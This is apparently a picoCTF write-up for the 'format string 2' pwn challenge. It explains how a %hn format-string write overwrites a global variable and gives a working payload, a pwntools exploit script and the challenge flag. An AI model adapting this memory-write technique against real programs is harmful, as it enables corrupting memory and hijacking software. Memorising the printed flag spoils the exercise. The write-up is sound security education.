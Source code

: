 ## format string 2

Level: Medium

Category: Pwn

Link: [https://play.picoctf.org/practice/challenge/448](https://play.picoctf.org/practice/challenge/448)

### Description

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

Author: SkrubLawd

### Solution

The difference in this challenge compaed to the previous challenge is that the flag will only be read after we enter our input. Therefore we have no any other way around but to follow the what the challenge ask for.

We need to overwrite the global variable  `sus` to `0x67616c66`.

First, let's find the address of `sus`. This can be done using `objdump -D <filename>`. Global variables are located under `.data` section.

![](./img/f2_objdump.png)

We can see the address of `sus` is `0x404060`.

Next, we need to overwrite `sus` using the `%n` format specifier with `printf`. The `%n` specifier stores the number of characters written so far into the integer pointed by `int *` pointer argument.

When no pointer argument is supplied to `printf`, it will takes from the stack.

So, like previous challenge, we first need to figure out where our format string is stored on the stack. We can pass in bunch of `%x`.

![](./img/f2_x.png)

The format string starts at the 14th position. We can craft our format string now. 

The format string needs to include the address of `sus`, `0x67616c66` bytes of character and `%n`.

Since supplying `0x67616c66` characters is impractical and the program only takes in first 1024 bytes anyway. So we can make use of `%<N>x`, which pad the first argument with `N` characters (with `space`).

Furthermore, writting `0x67616c66` bytes of padded string to standard output will take forever. Instead, we will write `0x6761` and `0x6c66` seperately. To do this, we will use `%hn` instead of `%n`, which writes only two bytes at a time.

Here is the format string: `%26465x%18$hn.%1284x%19$hnAAAAAA\x62\x40\x40\x00\x00\x00\x00\x00\x60\x40\x40\x00\x00\x00\x00\x00`

Let's break it down:

- `%26465x` specifies write 26465 (which is `0x6761`) spaces.
- `%18$hn` specifies find the address at 18th position below the stack lines and store the number of bytes written so far into the memory pointed by the address.
  - Earlier, we know the start of format string is at 14th position.
  - If you count, the address will be at 18th position (each stack position occupies 8 bytes). 
  - (14): `%26465x%`, (15): `18$hn.%1`, (16): `284x%19$`, (17): `hnAAAAAA`, (18): `\x62\x40\x40\x00\x00\x00\x00\x00` and (19): `\x60\x40\x40\x00\x00\x00\x00\x00`
  - That's why there's some extra `A` in the format string, it is used for padding. The `.` is just for me easier to count.
- `%1284x` specifies write 1284 spaces. Since there's an extra `.` before it, here is 1284 instead of 1285 (which is `0x6c66` - `0x6761`).
- `%19$hn` is same as `%18$hn` except to find the address at 19th position.
- The address `\x62\x40\x40\x00\x00\x00\x00\x00` and `\x60\x40\x40\x00\x00\x00\x00\x00`:
  - `\x62\x40\x40\x00\x00\x00\x00\x00` is `0x404062` in little endian (padded with `\x00` because is a b4-bit program).
  - One thing to note here is `0x6761` is stored into `0x404062` and **NOT** `0x404060`
  - We can visualise it:
    - `0x404060`: `66`
    - `0x404061`: `6c`
    - `0x404062`: `61`
    - `0x404063`: `67`
  - If use GDB, we should see something like:
    - `0x404060 <sus>: 0x67616c66      0x00000000      [REDACTED]`

> [!TIP] 
> Notice that the format string starts with the `0x6761` part instead of `0x6c66`. This is because `0x6761` is smaller than `0x6c66`, and `%n`/`%hn` store the written bytes so far.

> [!NOTE]
> The format string is in the form of `[padding with %Xx][%N$n][padding with %Yx][%(N+1)$n][addressess]`.
> I origianlly tried `[addressess][padding with %(X-16)x][%N$n][padding with %Yx][%N$n]`, but I am not sure why putting addresses in front won't work, not sure if this is a Python string problem or I messed up some part.

Lastly, we can use Pwntools for the inputs.

Here's the script:

```python
#!/bin/python3

from pwn import *

p = remote("rhea.picoctf.net", 54091)
#p = process("./format-string-2")

addr1 = b"\x62\x40\x40\x00\x00\x00\x00\x00"
addr2 = b"\x60\x40\x40\x00\x00\x00\x00\x00"

# start with lower value
# A is used for padding
payload = b"%26465x%18$hn.%1284x%19$hn" + b"AAAAAA" + addr1 + addr2

p.sendlineafter(b"What do you have to say?\n", payload)

while True:
    try:
        print(p.recvline())
    except EOFError:
        break

p.interactive()
```

Reference: [https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack](https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack)

Flag: `picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}`